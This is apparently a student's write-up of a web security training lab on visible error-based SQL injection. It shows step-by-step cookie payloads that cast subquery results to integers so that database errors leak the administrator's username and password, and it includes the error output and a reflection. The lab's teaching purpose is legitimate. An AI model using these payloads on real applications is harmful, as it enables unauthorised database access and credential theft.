








# Visible Error-Based SQL Injection

## Objectives

The database contains a table named `users`, with columns named `username` and `password`.

The objective is to exploit the SQL injection vulnerability to retrieve the administrator's password and then log in to the administrator account.

## Background

This lab contains a SQL injection vulnerability in the application's tracking cookie.

The application uses the value of the `TrackingId` cookie in a SQL query. However, the results of the SQL query are not directly returned in the application's response.

Instead, the application exposes detailed database error messages. By deliberately triggering errors that contain data from the database, it is possible to extract sensitive information, including usernames and passwords.

## Tools Used

- Burp Suite
- Chrome

## Methodology

### Identifying the SQL Injection Vulnerability

I started off by sending the request that loads the homepage to Burp Repeater because it contained the `TrackingId` cookie.

I then appended a single quotation mark to the cookie value and sent the request.



The response contained a visible database error message that disclosed the SQL query being executed. It also showed that my input appeared inside a single-quoted string.

```text
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'Xlyq5qjnti8UuPfM''. Expected char
```

This indicated that the application was incorporating the cookie value directly into its SQL query without properly handling the quotation mark.

### Testing SQL Syntax and Data-Type Conversion

I modified the request by adding the SQL comment syntax (`--`) to comment out the remainder of the original query.

After sending the request, the application no longer returned an error, indicating that the modified query had valid syntax.

Next, I introduced a generic `SELECT` subquery and attempted to cast its result to an integer:

```sql
TrackingId=Xlyq5qjnti8UuPfM' AND CAST((SELECT 1) AS int)--
```

The application returned a different error:

```text
ERROR: argument of AND must be type boolean, not type integer
Position: 63
```



This error revealed that the database expected the expression following `AND` to evaluate to a Boolean value, but the `CAST()` expression returned an integer.

To correct this, I added a comparison operator:

```sql
TrackingId=Xlyq5qjnti8UuPfM' AND 1=CAST((SELECT 1) AS int)--
```



This time, the application no longer returned the previous error. The comparison made the expression following `AND` a valid Boolean condition.

### Retrieving the Username

With the syntax established, I modified the subquery to retrieve usernames from the `users` table:

```sql
TrackingId=Xlyq5qjnti8UuPfM' AND 1=CAST((SELECT username FROM users) AS int)--
```

However, the application returned an unterminated string error. The error message showed that the injected query appeared to have been truncated:

```text
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'Xlyq5qjnti8UuPfM' AND 1=CAST((SELECT username from users) AS'. Expected char
```



I suspected that the length of the injected payload was exceeding a character limit. To reduce its length, I removed the original `TrackingId` value and resent the request:

```sql
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```

This time, I received a different error:

```text
ERROR: more than one row returned by a subquery used as an expression
```



This indicated that the subquery was returning multiple rows, even though it was being used in a context that expected a single value.

To resolve this, I modified the query to retrieve only one row by adding `LIMIT 1`:

```sql
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```



The response now revealed the first username:

```text
ERROR: invalid input syntax for type integer: "administrator"
```

This was exactly what I wanted. The database attempted to convert the username `administrator` into an integer, failed, and included the original value in the error message.

### Retrieving the Administrator's Password

Having successfully extracted the administrator's username, I used the same technique to retrieve the corresponding password.

I modified the subquery to select the `password` column for the administrator account:

```sql
TrackingId=' AND 1=CAST((SELECT password FROM users WHERE username='administrator') AS int)--
```



The resulting error message disclosed the administrator's password:

```text
luo0mcnbmbkcesear3mz
```

### Logging In as Administrator

With the password retrieved, I returned to the login page and attempted to authenticate using the administrator's credentials.



The login was successful, confirming that the extracted password was correct and completing the lab.

## Results

- Identified the SQL injection vulnerability in the `TrackingId` cookie.
- Used visible database error messages to understand the query structure and correct the injected SQL syntax.
- Identified PostgreSQL-style error behaviour through the returned messages.
- Retrieved the `administrator` username from the `users` table.
- Exploited an integer-conversion error to disclose the administrator's password.
- Successfully authenticated as the administrator and completed the lab.

## Reflection

This lab demonstrated that database error messages can become a source of sensitive information when an application exposes them to users.

Unlike blind SQL injection, where information must be inferred from differences in application responses, this technique allowed me to retrieve data directly from error messages. By deliberately casting string values to integers, I forced the database to generate errors containing the values I wanted to extract.

Another important lesson was the value of reading error messages carefully. Each error provided useful information about the query's structure, expected data types, and the number of rows returned by a subquery. Rather than treating errors as dead ends, I used them to refine my payloads and progress through the exploitation process.
